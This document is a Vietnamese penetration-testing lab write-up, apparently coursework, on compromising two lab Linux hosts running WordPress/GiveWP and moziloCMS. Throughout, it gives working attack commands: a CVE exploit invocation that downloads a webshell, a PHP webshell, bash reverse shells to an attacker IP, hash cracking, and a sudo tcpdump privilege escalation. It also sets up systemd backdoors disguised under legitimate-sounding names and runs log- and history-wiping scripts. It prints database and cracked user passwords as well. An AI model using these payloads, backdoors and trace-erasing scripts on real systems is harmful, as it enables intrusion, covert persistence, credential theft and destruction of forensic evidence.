






## Kiểm thử xâm nhập khai thác máy 1 
### Thu thập thông tin máy 1 
Sử dụng nmap để quét máy chủ đích có địa chỉ ip 192.168.5.136

Máy chủ đích đang có dịch vụ SSH , HTTP , OS là Linux 
Truy cập vào trang web ta thấy đây là trang web về nội dung quyên góp từ thiện


Trong quá trình thử các chức năng của trang web ta tìm được người dùng tạo ra trang web .


Sử dụng công cụ Wappalyzer ta phát hiện các trang web sử dụng CMS là wordpress , cơ sở dữ liệu MySQL và các framework javascript . 


Có trang web đang về chủ đề quyên góp nghi ngờ đang sử dụng plugin GiveW để xây dựng , ngôn ngữ PHP

Quét các file thư mục ẩn của trang web có đường dẫn http://192.168.5.136

```bash
┌──(root㉿lyquockhanh)-[~]
└─# gobuster dir --url http://192.168.5.136/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Từ các đường dẫn ta tìm được trang đăng nhập quản trị ứng với đường dẫn /wp-admin.



Sử dụng công cụ wp-scan để quét qua trang web 
```bash
┌──(root㉿lyquockhanh)-[~]
└─# wpscan --url http://192.168.5.136/ --enumerate p
```


Kết quả trả về đưa ra phiên bản 6.7.2 giống như Wappalyzer


Kết quả trả về phiên bản plugin mà trang web đang sử dụng là Give v3.16 được xác định thông qua đường dẫn /wp-content/plugins/give/. Đây là 1 phiên bản cũ của plugin Give so  phiên bản hiện tại là 4.0.0 . 


Ta tìm kiếm xem phiên bản plugin give 3.16 đang dùng xây dựng trang web này có tồn tại lỗ hỗng không 



Phiên này plugin thật sự tồn tại lỗ hổng với mức điểm đánh giá nghiêm trọng là 10.0
Mô tả lỗ hổng : 
"Plugin GiveWP – Donation Plugin and Fundraising Platform dành cho WordPress dễ bị tấn công PHP Object Injection (chèn đối tượng PHP) trong tất cả các phiên bản đến và bao gồm 3.16.1, thông qua việc giải mã dữ liệu đầu vào không đáng tin cậy từ một số tham số như 'give_title' và 'card_address'. Điều này cho phép kẻ tấn công chưa xác thực chèn một đối tượng PHP. Sự hiện diện bổ sung của một chuỗi POP cho phép kẻ tấn công xóa các tệp tùy ý và đạt được việc thực thi mã từ xa. Về cơ bản, đây là cùng một lỗ hổng như CVE-2024-5932, tuy nhiên, người ta đã phát hiện ra rằng sự hiện diện của stripslashes_deep trên user_info cho phép bỏ qua kiểm tra is_serialized.

### Khai Thac
Ta tìm được POC khai thác 
Đọc hiểu lỗ hổng bla bla  ta khai thác :)

https://github.com/EQSTLab/CVE-2024-8353?tab=readme-ov-file

```bash
┌──(venv)─(root㉿lyquockhanh)-[~/BTLKTXM/CVE-2024-8353]
└─# python3 CVE-2024-8353.py -u http://192.168.5.136/index.php/donations/givewp-donation-form/ -c "curl -O https://rlaaudrb1104.github.io/test_webshell.php"
```


Truy cập vào đường dẫn chứa shell php đã upload nên và thực thi câu lệnh

```bash
http://192.168.5.136/wp-admin/test_webshell.php?cmd=whoami
```


Mã hóa url payload này  

```bash
bash -c 'bash -i >& /dev/tcp/192.168.5.128/293 0>&1'
``` 

Thành 

```bash
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.5.128%2F293%200%3E%261%27
```

Rồi chèn vào cmd 


Thu được phiên reverse shell


### www-data -> user 

Nâng cấp shell pro hơn 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo
fg
reset
xterm
export TERM=xterm
stty rows 100 columns 200
```



```bash
find /var/www/ -type f -iname "*config*.php" 2>/dev/null
```


```bash
/** Database username */
define( 'DB_USER', 'wp_user' );

/** Database password */
define( 'DB_PASSWORD', '6++M]uA2utt]B)R' );
```

Dựa vào username và password của database tìm được truy cập vào CSDL 


Trong bảng wp_users ta tìm được 2 trường user_nicename và user_name chứa thông tin về tài khoản mật khẩu người dùng wordpress
```bash
| ID  | user_login | user_pass                              | user_nicename | user_email                     | user_url       | user_registered       | user_activation_key                           | user_status | display_name |
|-----|------------|----------------------------------------|---------------|---------------------------------|----------------|-----------------------|-----------------------------------------------|-------------|--------------|
|  1  | userktxm1  | $P$BBIt/pGvJuhW9//v0wqD17t8ZHLo0v0     | userktxm1     | lyquockhanh020903@gmail.com     | http://localhost| 2025-04-10 15:17:29   |                                               | 0           | userktxm1    |
|  3  | khanh      | $P$Bn.LT7tt3bUHmMyamNXOAQXo5biUDI0     | khanh         | khanh@gmail.com                |                 | 2025-04-11 15:04:45   | 1744383885:$P$BZ8o2kd14HYF3DPtquoJhgv3dG/fYm0 | 0           | Ly Khanh     |
|  6  | userktxm2  | $P$B2Yrsgw/hFayCRGfFeOHsYGRt06qPF/     | userktxm2     | userktxm2@gmail.com            |                 | 2025-04-12 05:56:38   | 1744437398:$P$BakFa5C2shJGgWck.6cz4WchWOJXhB. | 0           | Ly Khanh     |
```

Lưu mật khẩu hàm băm vào file hash.txt


Ta sử dụng công cụ hashcat để crack mật khẩu với từ điển mật khẩu phổ biến là rockyou.txt
```bash
┌──(root㉿lyquockhanh)-[~/BTLKTXM]
└─# hashcat -m 400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```


Ta crack thành công 2 mật khẩu của người dùng khanh và userktxm 
Username : khanh    Password : 1234!#$7aBcD
Username: userktxm2 Password: @Spring123
```bash
| Username   | Password         |
|------------|------------------|
| khanh      | 1234!#$7aBcD     |
| userktxm2  | @Spring123       |
```
Ta đọc file /etc/passwd trên hệ thống 


Phát hiện tồn tại người dùng khanh trong hệ thống 
Ta thử các username : khanh và password : 1234!#$7aBcD để đăng nhập qua dịch vụ SSH thật sự kết nối từ xa thành công vào hệ thống .


BackDoor

```bash
mkdir -p ~/.config/systemd/user
nano ~/.config/systemd/user/secure.service
```
Nội dung file
```bash
[Unit]
Description=Secure Update Service

[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.5.128/443 0>&1'
Restart=always

[Install]
WantedBy=default.target
```


```bash
systemctl --user daemon-reexec
systemctl --user daemon-reload
systemctl --user enable secure.service
systemctl --user start secure.service
```


### Xoa Dau Vet

Xoa file da upload len 
```bash
┌──(khanh㉿may1)-[~]
└─$ find /var/www -type f -name "test_webshell.php"
/var/www/html/wp-admin/test_webshell.php
```

Sử dụng script tự xây dựng để xóa dấu vết trên người dùng 

```bash
#!/bin/bash

echo "[*] Bắt đầu xóa dấu vết cho người dùng: $USER"

# 1. Xóa lịch sử shell
echo "[*] Xóa .bash_history và lịch sử shell..."
cat /dev/null > ~/.bash_history 2>/dev/null
history -c
unset HISTFILE

# 2. Xóa các dấu vết trình soạn thảo
echo "[*] Xóa lịch sử của nano và vim..."
rm -f ~/.nano_history 2>/dev/null
rm -f ~/.viminfo 2>/dev/null

# 3. Xóa các file khả nghi trong thư mục người dùng
echo "[*] Xóa các file .wget-hsts, shell, script tùy chọn..."
rm -f ~/.wget-hsts 2>/dev/null
rm -f ~/shell.php ~/reverse.sh ~/payload.sh 2>/dev/null

# 4. Xóa file trong /tmp và /var/tmp do người dùng tạo
echo "[*] Xóa file tạm người dùng tạo trong /tmp và /var/tmp..."
find /tmp -user "$USER" -type f -delete 2>/dev/null
find /var/tmp -user "$USER" -type f -delete 2>/dev/null

# 5. Xóa file log tạm (nếu tự tạo)
echo "[*] Xóa các file log tạm nếu có..."
rm -f ~/output.log ~/log.txt 2>/dev/null

# 6. Thêm biện pháp ẩn script
echo "[*] Xóa chính script này nếu cần..."
SCRIPT_PATH=$(realpath "$0")
rm -f "$SCRIPT_PATH"

echo "[+] Đã xóa dấu vết cơ bản cho user: $USER"
```


```
┌──(khanh㉿may1)-[~]
└─$ chmod +x user_clean.sh
                                                                                                                                                                                          
┌──(khanh㉿may1)-[~]                                                                                                                                                          
└─$ ./user_clean.sh
```


## Kiểm thử xâm nhập khai thác máy 2
### Thu thập thông tin 


Máy chủ đích đang có dịch vụ SSH , HTTP , OS là Linux 
Truy cập vào trang web ta được chuyển hướng ra đường dẫn /mozilio/


Sử dụng công cụ Wappalyer kiểm tra trang web ta thu được thông tin webservers đang chạy là Apache HTTP Server và ngôn ngữ lập trình là PHP , Hệ điều hành máy chủ chạy là Debian .


Trang web này không có gì đặc biệt ta thử tìm các đường dẫn file thư mục ẩn của trang web bằng công cụ gobuster

```bash
┌──(root㉿lyquockhanh)-[~]
└─# gobuster dir --url http://192.168.5.138/mozilo --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```

Từ các đường dẫn ta truy tìm được trang quản trị của website tại đường dẫn  /admin

Ta thử nhập tài khoản mật khẩu đã crack được ở máy đầu tiên  và may mắn thành công truy câp vào hệ thống với username : ktxm2  password: @Spring123
Thành công đăng nhập vào trang web 


Vào trong trang quản trị ta lại nhìn thấy được rõ phiên bản của trang web moziloCMS sử dụng là 3.0 ("Hope") - stabil với phiên bản hiện tại đang là 3.0.2
Thử tìm kiếm lỗ hổng về moziloCMS phiên bản 3.0  


### Khai Thac


Giấu payload shell vào file ảnh
Noi dung payload 
```bash
html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```


Upload thanh cong file anh chua shell


Ta doi ten file anh thanh duoi php de co the thuc thi 


Mở đường dẫn chứa file ảnh 


Thực thi câu lệnh thành công 


Chuyển đổi web shell thành reverse shell
Trên máy tấn công lắng nghe cổng 293


Sử dụng payload để gửi kết nối về máy tấn công

```bash
bash -c 'bash -i >& /dev/tcp/192.168.5.128/293 0>&1'
```


### www-data -> user
Nâng cấp shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo
fg
reset
xterm
export TERM=xterm
stty rows 100 columns 200
```


Đọc file /etc/passwd 
Ta tìm được tài khoản root và  tài khoản người dùng userktxm2

Thử sử dụng kết nối từ xa với  dịch vụ ssh với username password của người dùng userktxm2 mà đang có xem có thể đi vào hệ thống không.
Để kết nối từ xa vào hệ thống chỉ chấp nhận sử dụng chứng chỉ nên kết nối thông thành công 


Sử dụng công cụ Linpeas 

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```


Công cụ  Linpeas thu thập thông tin gợi ý cho ta lỗ hổng về ubuntu 20.0.4 ,hệ điều hành đang dùng bản ubuntu lỗi thời


Trong file người dùng www-data có thể sửa đổi có 1 file 


Tìm được 1 file  script của shell là backup.sh trong thư mục backups 
Kiểm tra thư file backup.sh 


Ta thấy ta ai cũng có quyền chỉnh sửa file backup.sh và file này thuộc sở hữu của người dùng userktxm2. 
Nội dung file 


Script này sẽ nén toàn bộ nội dung trong thư mục /var/www/html thành file nén .tar.gz và lưu vào /var/backups/web_backup.tar.gz
Tìm kiếm file backup.sh trong các thư mục  hệ thống /etc

```bash
grep -r "backup.sh" /etc 2>/dev/null
```


Mỗi giờ thì file backup.sh sẽ được thi 1 lần với quyền của người dùng userktxm2


Ta chỉnh sửa nội dung file backup.sh  để khởi tạo reverse shell gửi kết nối về máy tấn công.
```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.5.128/2933 0>&1
```
Trên máy tấn công mở cổng lắng nghe 


Chỉnh sửa file backup.sh gửi tín hiệu kết nối reverse shell ngược về máy tấn công.
 

Ta kết nối thành công reverse shell ngược với shell của người dùng userktxm2.
Ta có thể đảm bảo duy trì kết nối 
Trước đó ta thấy rằng để kết nối từ xa tới hệ thống qua dịch vụ SSH cần sử dụng khóa. Ta chỉ cần tạo ra cặp khóa công khai bí mật . Rồi chèn khóa công khai vào thư mục /.ssh/ Là ta có thể kết nối qua dịch vụ SSH 
Trên máy tấn công tạo ra cặp khóa công khai và khóa bị mật ssh .


Xem khóa công khai trên máy tấn công 


Copy lai khóa công khai và chèn vào file authorized_keys


### Nang quyen ( User -> Root)
Kiểm tra quyền của người dùng hiện tại với mk đã biết ở trên ta phát hiện 


Kiểm tra các tham số hoạt động của tcpdump qua tham số man
```bash
┌──(userktxm2㉿kali)-[~]
└─$ man tcpdump
```

Ta có thể lợi dụng điều này để tận dụng tùy chọn postrotate-command (-z) . Bằng cách chỉ định cờ -z, ta có thể sử dụng tcpdump để thực thi một tập lệnh shell, giành được
shell ngược với tư cách là người dùng root hoặc chạy các lệnh đặc quyền khác.
Ta tạo script thực thi 
```bash
echo "chmod +s /bin/bash" > /tmp/shell.sh
chmod +x /tmp/shell.sh
```


Lắng nghe trên máy tấn công cổng 2930
Thực thi câu lệnh 

Lưu câu lệnh thực thi lênh file shell.sh 


Chạy tcpdump dưới quyền root để thực thi file shell bằng quyền root , và thực thi câu lệnh trong file shell để nâng quyền 
```bash
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell.sh -Z root
/bin/bash -p
```


### Duy tri ket noi
Duy trì kết nối 
Ta sẽ tạo một service như thể nó là hệ thống hợp pháp, nhưng thực chất là shell reverse hoặc quyền root ẩn.
```bash
┌──(root㉿kali)-[/home/userktxm2]
└─# echo '#!/bin/bash                   
bash -i >& /dev/tcp/192.168.5.128/2930 0>&1' > /usr/local/bin/syslogd
chmod +x /usr/local/bin/syslogd
```
```bash
cat <<EOF > /etc/systemd/system/systemd-logclean.service
[Unit]
Description=System Logging Cleanup Service
After=network.target
[Service]
Type=simple
ExecStart=/usr/local/bin/syslogd
Restart=on-failure
[Install]
WantedBy=multi-user.target
EOF
```
```bash
┌──(root㉿kali)-[/home/userktxm2]
└─# systemctl daemon-reexec
systemctl enable systemd-logclean
systemctl start systemd-logclean
```


Mở lắng nghe trên cổng 

Dịch vụ sẽ chạy mỗi lần khởi động , hoặc mỗi lần start sẽ gửi shell ngược về máy

```bash
systemctl start systemd-logclean
```

Thành công 

Đã hoàn thành backdoor
### Xóa dấu vết 
Đảm bảo file shell.sh trong /tmp đã xóa 


Xóa payload đã upload lên web 
```bash
rm -f /var/www/html/mozilo/kategorien/Willkommen/dateien/webshell.php
```


Đảm bảo xóa log trên /var/www nhưng kiểm tra log trên /var/www/ và không tồn tại log 
```bash
find /var/www -type f -name “*.log”
```


```bash
#!/bin/bash

echo "[*] Xóa nội dung lịch sử shell (bash, zsh)..."
unset HISTFILE
export HISTSIZE=0
export HISTFILESIZE=0
export SAVEHIST=0

truncate -s 0 ~/.bash_history 2>/dev/null
truncate -s 0 ~/.zsh_history 2>/dev/null
truncate -s 0 /root/.bash_history 2>/dev/null
truncate -s 0 /root/.zsh_history 2>/dev/null

echo "[*] Xóa dữ liệu phiên SSH (giữ lại file)..."
truncate -s 0 /var/log/wtmp 2>/dev/null
truncate -s 0 /var/log/btmp 2>/dev/null
truncate -s 0 /var/run/utmp 2>/dev/null

echo "[*] Xóa dữ liệu lệnh trong journalctl..."
journalctl --rotate
journalctl --vacuum-time=1s
rm -rf /var/log/journal/* 2>/dev/null

echo "[*] Xóa nội dung log web Apache/nginx (không xóa file)..."
# Apache
find /var/log/apache2/ -type f -name "*.log" -exec truncate -s 0 {} \; 2>/dev/null
# Nginx
find /var/log/nginx/ -type f -name "*.log" -exec truncate -s 0 {} \; 2>/dev/null
```


